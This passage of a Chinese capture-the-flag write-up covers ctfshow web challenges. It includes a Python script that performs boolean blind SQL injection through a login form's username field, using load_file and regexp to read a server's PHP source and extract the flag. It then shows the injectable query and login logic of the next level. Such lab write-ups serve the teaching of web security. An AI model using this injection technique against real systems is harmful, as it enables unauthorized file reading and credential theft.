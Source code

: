 ```
      $ret['msg']='登陆成功';
    }
     
```

这题在输入0/0的时候会显示密码错误，而在输入1/0的时候则会显示查询错误

可以通过这个来进行布尔盲注，即正确时系统返回查询错误，错误时系统返回密码错误

```python
# -*- coding: utf-8 -*-
# @Author  : Yn8rt
# @Time    : 2021/7/30 15:48
# @Function:
import requests
import sys
import json

url = 'http://98e1809d-5de9-4f68-b45f-d03388b1dae8.challenge.ctf.show/api/'
flag = 'ctfshow{'
letter = '0123456789abcdefghijklmnopqrstuvwxyz-{}'

for i in range(100):
    for j in letter:
        payload = {
            "username": "if(load_file('/var/www/html/api/index.php')regexp('{}'),0,1)".format(flag + j),
            "password": "0"

        }
        r = requests.post(url=url,data=payload)
        #print(r)
        if "密码错误" == r.json()['msg']:
            flag += j
            print(flag)
            break
        if '}' in flag:
            sys.exit()
```



#### web190

查询语句

```
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = '{$username}'";
      
```

返回逻辑

```
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
      
```
